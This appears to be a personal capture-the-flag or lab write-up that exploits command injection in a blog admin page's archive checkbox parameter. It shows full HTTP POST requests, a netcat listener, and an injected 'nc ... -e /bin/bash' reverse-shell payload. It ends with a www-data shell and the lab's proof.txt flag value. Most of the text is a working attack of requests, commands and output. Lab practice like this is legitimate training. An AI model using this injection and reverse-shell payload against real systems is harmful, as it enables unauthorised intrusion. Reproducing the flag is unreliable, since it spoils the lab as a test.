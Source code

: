testing here
![[Pasted image 20250107011411.png]]
utilized `/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt` in `intruder` against this post request, injected after `archive` and was able to get a `netstat` result
```http
POST /admin/index.php HTTP/1.1
Host: 192.168.61.86
Content-Length: 57
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.61.86
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.61.86/admin/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=b3d6424be60a91ddc4db7ca032a17e62
Connection: keep-alive

blogPost=test&compressCheckbox=on&archiveCheckbox=archive§
```
looks like we have `LCE` with `;netstat -a;` - box crashed after finding this, need to revert
![[Pasted image 20250107005727.png]]
unable to hit my own machine with `curl http://192.168.49.61:80/test.txt` we only have `LCE`
![[Pasted image 20250107010507.png]]
`id`
![[Pasted image 20250107010415.png]]
`nc` is on the machine at `/bin/nc`

![[Pasted image 20250107010635.png]]
since we know that `netcat` is on the machine we should be able to get a reverse shell

setup `listener` with 
```bash
┌──(root💀gobots)-[07Jan2025 06:01:47]-[/usr/share/payloadsallthethings/Command Injection/Intruder]
└─# nc -lvnp 1337
listening on [any] 1337 ...
```
![[Pasted image 20250107010926.png]]
send `payload` to kick off `netcat`
```bash
nc 192.168.49.61 1337 -e /bin/bash
```
full `POST`
```http
POST /admin/index.php HTTP/1.1
Host: 192.168.61.86
Content-Length: 93
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.61.86
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.61.86/admin/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=b3d6424be60a91ddc4db7ca032a17e62
Connection: keep-alive

blogPost=test&compressCheckbox=on&archiveCheckbox=archive;nc 192.168.49.61 1337 -e /bin/bash;
```
screenshot of `POST`
![[Pasted image 20250107011048.png]]caught `reverse shell` and got `proof.txt`

![[Pasted image 20250107011127.png]]
```bash
┌──(root💀gobots)-[07Jan2025 06:01:47]-[/usr/share/payloadsallthethings/Command Injection/Intruder]
└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.49.61] from (UNKNOWN) [192.168.61.86] 57120

whoami
www-data
ls
blogAdmin.php
index.php
proof.txt
cat proof.txt
e9228b4481d54007cd32590ff5b336e2
```